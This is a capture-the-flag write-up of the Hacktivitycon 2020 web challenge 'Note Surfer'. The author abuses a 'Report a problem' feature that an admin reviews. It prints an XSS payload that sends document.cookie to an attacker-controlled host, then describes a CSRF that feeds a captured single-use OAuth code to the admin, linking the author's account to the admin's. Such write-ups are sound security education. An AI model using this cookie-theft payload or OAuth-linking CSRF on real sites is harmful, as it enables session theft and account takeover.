 ```yaml
---
title: Note Surfer
date: 2020-12-29
excerpt: "'Note Surfer' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020-web
tags:
  - hacktivitycon
  - CSRF
  - XSS
---
```


![img](/assets/images/ctf/hacktivitycon-web-notesurfer/0.png)


![img](/assets/images/ctf/hacktivitycon-web-notesurfer/1.png)


Sticky notes app. There's a couple interesting things to note here. Link with OAuth and Report a problem.  

Checking out 'Report a problem' first



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/2.png)


So this got me thinking. If the admin is looking into it, maybe there's some kind of vulnerability on the back end.



I fired up my VPS and started a php session to see if I could steal some cookies



Reported this payload as a problem:



`<img src=x onerror=document.location="http://REDACTED/cookie.php?c="+document.cookie>`



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/3.png)


So XXS is in play, but the cookies are set to HttpOnly. No dice there.



The title of the challenge is a big hint on what to do next:



Cross Site Request Forgery or CSRF (Sea Surf) for short



I assumed that it had something to do with OAuth, so I fired up burp to capture the requests



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/4.png)


Forwarding the first request leaves us with the second.



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/5.png)


After some testing I noted that the 'code' variable is one use. So I set this request to repeater and dropped it.



Right click anywhere on the request and 'Copy URL'



Back on the sticky notes app, we can report another problem



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/6.png)


Send that off and then logging into our OAuth account we can see that we're now connected with the Admin sticky notes account



![img](/assets/images/ctf/hacktivitycon-web-notesurfer/7.png)
